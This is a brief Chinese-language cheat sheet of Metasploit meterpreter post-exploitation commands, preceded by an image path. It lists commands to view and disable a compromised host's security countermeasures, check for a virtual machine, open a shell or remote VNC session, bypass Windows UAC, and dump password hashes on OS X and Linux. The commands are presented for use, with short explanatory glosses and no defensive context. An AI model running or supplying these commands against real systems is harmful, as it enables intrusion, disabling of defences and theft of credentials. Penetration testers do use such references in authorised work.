 查看保护机制并禁用之

```
meterpreter> run getcountermeasure
meterpreter> run getcountermeasure -h
meterpreter> run getcountermeasure -d -k
```

* meterpreter> run checkvm 检查是否是虚拟机
* meterpreter> shell 转入命令行
* meterpreter> run vnc 远程VNC控制
* meterpreter> background 转入后台
* meterpreter> run post/windows/escalate/bypassuac 执行Bypass UAC
* meterpreter> run post/osx/gather/hashdump 在OS X系统上dump hash
* meterpreter> run post/linux/gather/hashdump 在Linux 系统上dump hash
